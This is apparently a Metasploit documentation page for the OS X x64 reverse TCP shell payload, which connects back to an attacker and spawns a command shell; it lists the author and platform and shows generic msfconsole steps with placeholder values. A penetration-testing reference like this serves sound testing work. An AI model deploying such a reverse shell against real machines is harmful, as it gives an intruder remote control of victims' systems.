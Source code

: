## OS X x64 Shell Reverse TCP

Connect back to attacker and spawn a command shell


## Module Name
payload/osx/x64/shell_reverse_tcp

## Authors
nemo <nemo[at]felinemenace.org>





## Platforms
osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/x64/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    